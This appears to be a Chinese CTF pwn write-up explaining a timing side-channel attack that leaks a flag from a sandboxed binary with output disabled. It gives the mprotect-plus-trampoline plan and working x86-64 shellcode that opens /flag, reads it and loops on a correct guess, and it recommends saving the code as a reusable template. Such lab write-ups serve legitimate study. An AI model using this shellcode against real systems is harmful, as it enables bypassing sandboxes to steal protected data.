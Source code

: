 **我又打开了writeup**

对于write的话我们可以使用侧信道攻击的方式，就是要对flag的每一位进行爆破，与我们已经read读入到内存中的真实flag进行对比，比如，若是相等就触发死循环，那么我们就可以通过判断接受数据用了多长时间来判断爆破是否正确，就是对flag的每一位进行爆破，当超过1秒则说明我们测试当下位的猜测正确。由于侧信道最好是通过shellcode来实现，故再之前需要使用mprotect的gadget链改一下bss段的可执行权限，而一次性只能读入0x80的大小的数据，可能无法将orw的shellcode和mprotect的gadget一起读进bss段，因此，我们可以**先写一小段**`<b>shellcode</b>`**作为跳板**和`mprotect`的`gadget`一起读入到`bss`段，再通过这个跳板，将`orw`的`shellcode`读到`bss`段上并跳转执行。

pwn中侧信道攻击的主要思想是：爆破。由于程序中的沙盒禁用了输出流，致使我们不能够直接获得flag的明文，这就是主信道获取信息的方式已经不能够被实现，然后我们使用flag中可能有的所有字符当作字典，逐位进行爆破，通过cmp返回的不同信息来判断flag的明文。这就是侧信道攻击的思想。

```python
    shellcode_main = f'''
        /* close(0) */#关闭输入流
        push 3
        pop rax
        xor rdi, rdi
        syscall
        /* openat("/flag") */
        push 257
        pop rax
        /* ( absolute path ) */
        mov rsi, 0x67616c662f
        push rsi
        mov rsi, rsp
        /*
        ( relative path )
        push -100
        pop rdi
        push 0x67616c66
        push rsp
        pop rsi
        */
        syscall
        /* read flag */
        xor rax, rax
        xor rdi, rdi
        mov rsi, rsp
        push 0x50
        pop rdx
        syscall
        /* blow up flag */
        mov al, byte ptr[rsi+{pos}]
        cmp al, {char}
        ja $-2
        ret
    '''
    sleep(0.1)
    s(asm(shellcode_main))
```

其实这个shellcode可以当作模板来存下，之后再遇到此类题目的时候稍微改一改就可以用了

exp：
----
